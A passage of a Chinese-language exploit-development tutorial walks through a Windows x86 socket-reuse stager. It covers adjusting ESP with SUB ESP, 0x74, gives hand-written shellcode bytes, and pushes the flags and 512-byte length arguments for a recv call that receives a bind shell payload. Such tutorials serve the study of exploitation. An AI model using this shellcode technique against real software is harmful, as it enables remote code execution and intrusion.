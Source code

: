 ## 堆栈指针调整

当我们在上面的文件描述符中查找外壳代码时，我们可以成功地看到`58`确实位于我们的`ESI`寄存器中；但是，我们可以注意到我们的`EIP`地址太靠近当前的`ESP`，这可能会影响我们未来的 stager 代码被覆盖。

![](img/478c0c53d9c23c33fb16d5a7fd6efdc9.png)

为了避免这种情况，我们可以通过执行以下操作来减少 ESP 中的一些堆栈指针。

```
**### Stack Pointer Adjustment (ASM)**SUB ESP, 0x74       **; 116 bytes**
```

![](img/9c456243370f3934a801f55020ccedd1.png)

```
**### Stack Pointer Adjustment (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
**\x83\xEC\x74          # SUB ESP, 0x74**
```

## 接收(标志和长度)

接下来，我们需要按照其余的`recv`语法推送所有数据。我们将首先把`0`压入堆栈来设置 flags 参数。然后，我们将添加`512`字节(`0x200`)的缓冲区大小，这对于我们的 bind shell 有效负载来说足够了。

```
**### recv - Flags & Len (ASM)**XOR EBX, EBX        **; Zero out EBX**
PUSH EBX            **; Push EBX onto the stack (Set for *Flags*)**
ADD BH, 0x2         **; Set EBX to 0x00000200**
PUSH EBX            **; Push EBX onto the stack (Set for *Len*)**
```
